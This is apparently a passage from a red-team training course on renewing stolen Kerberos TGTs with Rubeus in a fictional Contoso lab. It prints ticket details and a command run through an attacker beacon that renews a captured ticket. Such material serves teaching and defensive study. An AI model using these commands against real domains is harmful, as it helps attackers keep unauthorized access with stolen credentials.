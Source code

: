 #### Renewing TGTs <a href="#el_1744394713530_387" id="el_1744394713530_387"></a>

Hashes are good until the user's password changes but tickets have a much more limited lifetime.  Once a TGT has expired, it can no longer be used to request service tickets.  Running Rubeus `describe` against a ticket will show you its **StartTime**, **EndTime**, and **RenewTill** fields.

```batch
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFq[...snip...]uQ09N

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/CONTOSO.COM
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  rsteel (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  11/04/2025 16:33:17
  EndTime                  :  12/04/2025 02:33:17
  RenewTill                :  18/04/2025 16:33:17
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  dYvwhkU1keAEgYuEbzLYOasJypZsWqJaQOMUN5hGLXw=
```

Where:

* **StartTime** is the date/time when the ticket was issued by the KDC.
* **EndTime** is the expiry date of this ticket.  This is 10 hours after the StartTime by default.
* **RenewTill** is the date beyond which tickets can no longer be renewed (this won't make 100% sense just yet).  This is 7 days after the StartTime by default.

TGTs issued by a KDC are only valid for a limited length of time.  When they are due to expire, Windows will transparently renew the ticket without the user having to provide their password again.  We can renew a ticket manually using Rubeus' `renew` command.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe renew /ticket:doIFq[...snip...]uQ09N /nowrap

[*] Action: Renew Ticket

[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Building TGS-REQ renewal for: 'CONTOSO.COM\rsteel'

[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIFq[...snip...]uQ09N
```

If we describe this new ticket, we'll see that the StartTime and EndTime have been changed to reflect the date/time this ticket was issued and will expire. However, the RenewTill time is the same as the original ticket.
